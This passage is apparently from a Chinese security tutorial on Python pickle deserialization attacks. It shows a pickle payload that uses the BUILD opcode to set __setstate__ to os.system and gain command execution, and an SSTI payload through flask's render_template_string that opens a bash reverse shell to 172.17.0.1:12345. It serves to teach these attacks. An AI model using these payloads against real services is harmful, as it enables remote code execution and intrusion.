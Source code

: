 若R指令被禁用
test原先是没有__setstate__这个方法的。那么我们利用{'\_\_setstate__': os.system}来BUILE这个对象，那么现在对象的__setstate__就变成了os.system；接下来利用"ls /"来再次BUILD这个对象，则会执行setstate("ls /") ，而此时__setstate__已经被我们设置为os.system，因此实现了RCE.

```python
\x80\x03c__main__\ntest\n)\x81}(V__setstate__\ncos\nsystem\nubVls /\nb.
```

![JAmhp6.png](https://s1.ax1x.com/2020/04/16/JAmhp6.png)

### ⑦构造 render_template_string 进行ssti
```Python
payload="cflask.templating\nrender_template_string\np0\n(S\"{% for x in (().__class__.__base__.__subclasses__()) %}{%if x.__name__ =='catch_warnings'%}{{x.__repr__.im_func.func_globals.linecache.os.system('bash -c \"bash -i >& /dev/tcp/172.17.0.1/12345 0>&1\" &')}}{%endif%}{%endfor%}\"\np1\ntp2\nRp3\n."
```

### 参考
[Python反序列化漏洞的花式利用](https://xz.aliyun.com/t/2289)
[绕过 RestrictedUnpickler](http://blog.nsfocus.net/%E7%BB%95%E8%BF%87-restrictedunpickler/)
[从零开始python反序列化攻击](https://zhuanlan.zhihu.com/p/89132768)
[Code-Breaking中的两个Python沙箱
](https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html)
[]()
